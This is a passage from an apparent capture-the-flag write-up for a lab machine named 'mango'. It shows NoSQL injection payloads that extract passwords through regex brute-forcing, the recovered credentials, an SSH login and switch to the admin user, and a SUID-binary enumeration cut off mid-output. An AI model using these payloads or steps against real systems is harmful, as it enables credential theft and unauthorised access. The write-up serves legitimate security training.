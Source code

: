     :::text
    username[%24ne]=admin&password[%24regex]=h3§q§.{13}&login=login
    username[%24ne]=admin&password[%24regex]=h3m§q§.{12}&login=login
    username[%24ne]=admin&password[%24regex]=h3mXK8RhU§q§.{6}&login=login
    username[%24ne]=admin&password[%24regex]=h3mXK8RhU~f{]f5§q§.{0}&login=login

We finally get the password `h3mXK8RhU~f{]f5H`. We try to login with it but this
not the admin password as mentioned earlier. We repeat the process with the
following payload and get the admin password `t9KcS3>!0B#2`.

`username=admin&password[%24regex]=§a§.{12}&login=login`

# Getting user

The admin password is working. But we cannot use it to connect using SSH. We
need to find the other user. After some guessing we found that the other user is
simply "mango". We can then connect to the box using SSH and the previous
password.

The user flag is not in the mango user home folder. We need to login as the
admin user. A simple `su admin` with the previously found password do the trick.

    :::text
    mango@mango:~$ su admin
    Password: 
    $ cd
    $ ls
    jjs  user.txt
    $ cat user.txt
    79bf31<redacted>

# Getting root

We start enumerating the box for privileges escalation. Listing our `sudo` right
and the SUID binaries.

    :::text
    admin@mango:/home/admin$ sudo -l
    [sudo] password for admin: 
    Sorry, user admin may not run sudo on mango.
    admin@mango:/home/admin$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
    -rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
    -rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
    -rwsr-xr-x 1 root root 44664 Jan 25  2018 /bin/su
    -rwsr-xr-x 1 root root 64424 Mar  9  2017 /bin/ping
    -rwsr-xr-x 1 root root 40152 May 15  2019 /snap/core/7713/bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/7713/bin/ping
    -rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/7713/bin/ping6
    -rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/7713/bin/su
    -rwsr-xr-x 1 root root 27608 May 15  2019 /snap/core/7713/bin/umount
    -rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/7713/usr/bin/chfn
    -rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/7713/usr/bin/chsh
    -rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/7713/usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/7713/usr/bin/newgrp
    -rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/7713/usr/bin/passwd
    -rwsr-xr-x 1 root root 136808 Jun 10 22:53 /snap/core/7713/usr/bin/sudo
    -rwsr-xr-- 1 root systemd-resolve 42992 Jun 10 19:46 /snap/core/7713/usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 428240 Mar  4  2019 /snap/core/7713/usr/lib/openssh/ssh-keysign
    -rwsr-sr-x 1 root root 106696 Aug 30 07:09 /snap/core/7713/usr/lib/snapd/snap-confine
    -rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/7713/usr/sbin/pppd
    -rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/6350/bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/6350/bin/ping